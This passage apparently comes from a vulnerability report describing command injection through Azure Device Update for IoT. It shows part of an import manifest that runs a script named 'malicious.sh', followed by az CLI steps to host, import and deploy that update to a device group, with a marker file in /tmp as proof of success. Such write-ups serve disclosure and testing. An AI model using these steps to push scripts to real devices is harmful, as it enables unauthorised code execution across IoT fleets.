         "steps": [
          {
            "type": "inline",
            "handler": "microsoft/script:1",
            "files": [
              "malicious.sh"
            ],
            "handlerProperties": {
              "installedCriteria": "installed"
            }
          }
        ]
      },
      "files": [
        {
          "filename": "malicious.sh",
          "hashes": {
            "sha256": "e1e0144254495793854454a156689a75e154194f28a9a6169642fa4d0bb00bb2"
          },
          "sizeInBytes": 43
        }
      ]
    }
    ```
    3. Host both `malicious.sh` and `malicious_manifest.json` files in a publicly accessible location (e.g., GitHub repository, Azure Blob Storage with SAS token).
    4. Using the Azure CLI with the IoT extension, import the malicious manifest into a Device Update account:
    ```bash
    az iot du update import -n <device_update_account_name> -g <resource_group_name> --manifest https://<public_url>/malicious_manifest.json
    ```
    5. Create a device group within the Device Update instance and deploy the malicious update to it:
    ```bash
    az iot du device update -n <device_update_account_name> -i <device_update_instance_name> --group-id maliciousGroup
    az iot du device update -n <device_update_account_name> -i <device_update_instance_name> --group-id maliciousGroup --update-name maliciousUpdate --update-provider contoso --update-version 1.0.0
    ```
    6. Monitor the targeted IoT devices within the device group. If successful, the `malicious.sh` script will execute, and evidence of command injection will be present (e.g., the file `/tmp/vulnerable.txt` will be created on the device).
    7. Check device logs or access the device directly (if possible) to verify the creation of `/tmp/vulnerable.txt`, confirming successful command injection.